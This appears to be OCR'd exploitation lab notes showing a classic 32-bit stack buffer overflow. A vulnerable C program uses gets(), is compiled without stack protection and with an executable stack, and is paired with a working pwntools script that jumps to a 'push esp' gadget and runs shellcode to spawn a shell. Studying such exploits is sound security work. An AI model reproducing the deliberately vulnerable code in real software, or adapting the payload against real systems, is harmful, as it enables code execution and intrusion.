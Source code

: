 ## \_start+32

jmp shellcode

--

```c
#include <stdio.h>
void vul(){
    char buf[100];
    gets(buf);
    return;
}
int main(int argc, char *argv[])
{
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    vul();
    return 0;
}
```

```shell
gcc -m32 -fno-stack-protector -z execstack -o b ./b.c
```

```python
from pwn import *
elf=ELF('./b')

io=process("./b")
gdb.attach(io)
padding=112
push_esp=elf.symbols['_start']+32

payload="A"*padding
payload+=p32(push_esp)
payload+=asm(shellcraft.sh())

io.sendline(payload)
io.interactive()
```

--

## befor push esp

| stack        |
| ------------ |
| padding      |
| push esp ret |
| shellcode    |
|              |
